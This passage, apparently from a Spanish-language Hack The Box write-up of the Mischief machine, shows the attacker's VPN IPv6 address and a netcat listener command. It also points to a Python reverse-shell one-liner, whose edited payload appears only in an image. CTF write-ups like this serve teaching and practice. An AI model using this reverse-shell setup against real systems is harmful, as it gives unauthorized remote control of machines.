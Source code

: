 Pero bueno también vamos a enviarnos una **reverse shell** por **IPv6**

Bueno primero necesitamos saber cual es nuestra **IPv6** de la **VPN** de **Hackthebox** así que podemos hacer esto 

```bash
❯ ifconfig tun0
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.12  netmask 255.255.254.0  destination 10.10.14.12
        inet6 dead:beef:2::100a  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::6f5e:e876:b411:3f2b  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 86518  bytes 6495608 (6.1 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 90080  bytes 5887972 (5.6 MiB)
        TX errors 0  dropped 1951 overruns 0  carrier 0  collisions 0
```

Y ahora nos ponemos en escucha con **netcat** hay que tener en una versión reciente a mi paso que lo tenia desactualizado y no podía entablar nada por que me daba error 

```bash
❯ apt upgrade netcat  
```

```bash
❯ nc -nv -l dead:beef:2::100a 443
Listening on dead:beef:2::100a 443
```

Nos vamos a entablar la **reverse-shell** con **Python** ya que esta corriendo <https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet> entonces nos vamos a copear todo el **oneliner** con **python** 

Y modificamos la **shell** indicándole nuestra **IPv6** 

![](/assets/images/htb-writeup-mischief/web19.png)
